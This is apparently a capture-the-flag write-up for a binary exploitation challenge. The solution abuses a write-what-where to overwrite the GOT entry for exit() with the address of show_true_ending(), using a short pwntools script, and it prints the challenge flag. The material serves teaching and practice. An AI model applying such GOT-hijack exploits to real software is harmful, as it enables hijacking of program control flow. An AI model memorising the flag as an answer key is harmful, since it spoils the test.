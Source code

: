 # GameOfThrones

### Description

Can you write a decent finale for Game of Thrones and get the flag?

### Rules
- You cannot patch this binary.
- The challenge MUST BE SOLVED by providing appropriate inputs.
- Solutions that jump directly to the print flag function WILL NOT BE CONSIDERED.
- Do not modify the flag.txt file.

## Solution

The binary provides a trivial write-what-where so it would be a good idea to overwrite some entry in the GOT in order to get control of the program control flow.
A good candidate for the overwrite would be (as usual) the `exit()` function.
The function that gives us the flag is `show_true_ending()` but it's never called anywhere.
By overwriting the GOT entry for `exit()` we can call the required function and get the flag.

```python
from pwn import * 

context.binary = "./vuln"
e: ELF = context.binary  
p = process()
p.sendline(str(e.got["exit"]).encode("ascii"))
p.sendline(str(e.functions["show_true_ending"].address).encode("ascii"))
log.success(p.recvline_regex(rb"SPRITZ{.*}").decode("ascii"))
```

### Flag

```plain
SPRITZ{GoT_Hijacking_iS_FUn{flag}}
```
